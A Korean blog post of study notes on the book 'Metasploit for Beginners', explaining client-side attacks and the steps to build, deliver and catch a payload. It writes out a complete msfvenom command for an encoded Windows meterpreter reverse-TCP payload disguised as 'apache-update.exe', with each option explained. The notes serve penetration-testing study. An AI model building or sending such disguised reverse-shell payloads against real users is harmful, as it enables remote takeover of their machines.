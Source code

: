```yaml
---
layout: post
title: "Metasploit for Beginners 메모"
categories: [보안, 취약점스캐너]
tags: [취약점, 스캐너, metasploit]
toc: true
last_modified_at: 2023-10-06 17:15:00 +0900
---
```


# 개요
- Metasploit for Beginners(저자 Sagar Rahalkar) 책을 보고 일부 메모한 파일이다. 
- https://www.amazon.com/Metasploit-Beginners-threat-free-best-class/dp/1788295978
- Metasploit 입문서로서는 아주 좋다. 쉽게 쓰여져 있고 알아야할 기본적인 내용은 다 써있다. 

# Client-side Attacks
- Client-side attack이란 각 개별 유저를 노리는 공격을 총칭한다. 예들 들어 공격자가 웹 사이트에서 멀웨어 코드가 임베드된 DOC, PDF, XLS등을 불특정 유저에게 다운로드시킨다음에 유저가 해당 파일을 실행하면 동작하는 타입의 공격이다. 
- 이런 타입의 공격은 기존의 공격 형태 (글로벌 IP를 가진 서버를 대상으로 하는 형태)와는 달리, 예를들어 라우터 뒤에 있는 특정 조직의 사내 서버라던가 조직내의 PC를 공격할 수 있다는 특징이 있다. 

## 공격 흐름
Client-side attack의 공격흐름은 다음과 같다. 
1. msfvenom을 사용해서 페이로드를 만든다.
2. incomming 커넥션을 처리하기 위한 리스너를 시작한다. 
3. victim에게 페이로드를 보낸다. 
4. 리버스 세션을 기다린다. 

## 페이로드 생성 
### Msfvenom 
예전에는 Metasploit에 msfpayload 와 msfencode 만 존재했다. msfpayload는 시스템을 공격하기 위한 페이로드가, msfencode는 그 페이로드를 숨기기위한 obfuscate기능이 있다. 이 두가지 기능을 합친것이 최근에 등장한 msfvenom 이다. 

### 커맨드 
다음 커맨드를 사용해서 페이로드를 만든다. 

```sh
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp \
LHOST= 192.168.44.134 LPORT= 8080 -e x86/shikata_ga_nai \ 
-f exe -o /root/Desktop/apache-update.exe
```

각 옵션의 의미는 다음과 같다. 

- -a x86: x86아키텍처상에서 동작하는 페이로드를 만든다. 
- --platform windows: 페이로드가 동작하는 플랫폼은 windows이다. 
- -p windows/meterpreter/reverse_tcp: 페이로드는 reverse TCP로 동작하는 meterpreter이다. 
- -e x86/shikata_ga_nai: 페이로드 인코더는 shikata_ga_nai를 사용한다. 
- -f exe: 아웃풋 포맷은 exe이다. 
- -o /root/Desktop/apache-update.exe: 만들어진 페이로드가 저장될 경로이다. 

